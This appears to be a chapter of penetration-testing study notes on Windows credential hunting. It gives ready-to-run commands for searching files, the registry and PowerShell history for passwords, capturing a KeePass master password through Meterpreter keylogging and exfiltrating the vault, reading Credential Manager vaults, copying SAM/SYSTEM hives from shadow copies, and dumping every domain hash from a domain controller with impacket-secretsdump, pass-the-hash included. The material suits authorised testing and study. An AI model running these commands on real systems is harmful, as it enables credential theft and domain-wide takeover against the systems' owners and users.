

# 08 — Credential Hunting + SAM / NTDS / Windows Vault

> [!TIP]
> Credential hunting involves searching local file systems, memory, registry keys, password managers, and shadow copies for clear-text passwords, hashes, and API tokens.

---

## Clear-Text Credential Locations

Hardcoded credentials often linger in unattended installation and config files:

- `C:\Unattend.xml`
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Unattend\Unattend.xml`
- `C:\sysprep.inf`
- `web.config` files in IIS web roots (`C:\inetpub\wwwroot\`)
- Group Policy Preferences (`Groups.xml`, `Services.xml`, `ScheduledTasks.xml` — cpassword)

---

## PowerShell PSReadLine History & Registry

### PSReadLine Command History
PowerShell records every command per user session to an unencrypted text file:

```cmd
type C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Registry Password Search
```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

---

## KeePass Password Manager Exploitation



### Steps
1. Find `.kdbx` files:
   ```cmd
   dir /s /b C:\*.kdbx
   ```
2. Migrate into user session:
   ```text
   meterpreter > migrate <USER_EXPLORER_PID>
   ```
3. Keylog or dump memory when user unlocks KeePass.
4. Exfiltrate `.kdbx` and open with captured master password.

---

## Windows Credential Manager & DPAPI Vaults

```cmd
vaultcmd /list
vaultcmd /listproperties:"Web Credentials"
```

```powershell
. C:\AD\Tools\Get-WebCredentials.ps1
Get-WebCredentials
```

---

## SAM & SYSTEM Hive Extraction (VSS)

Extract local account NTLM hashes from the SAM and SYSTEM registry hives.

```cmd
# Create Volume Shadow Copy
wmic shadowcopy call create Volume='C:\'

# List shadow copies
vssadmin list shadows

# Copy hives from shadow
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\AD\Tools\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\AD\Tools\SYSTEM

# Extract hashes offline
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

---

## NTDS.dit Database

`ntds.dit` is the primary AD database storing all user hashes, Kerberos keys, and schema definitions.

```text
C:\Windows\NTDS\ntds.dit
```

### Core Tables
- **Data Table:** All directory objects (Users, Computers, Groups, Passwords, Trust keys)
- **Link Table:** Group memberships and relationships
- **Schema Table:** Allowed object classes and attribute structures

> [!IMPORTANT]
> Dumping `ntds.dit` via VSS or DCSync grants access to every password hash in the entire domain.

### Impacket — Full NTDS Dump
```bash
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> -just-dc
impacket-secretsdump <DOMAIN>/<USER>@<DC_IP> -hashes :<NTLM_HASH> -just-dc-ntlm
```
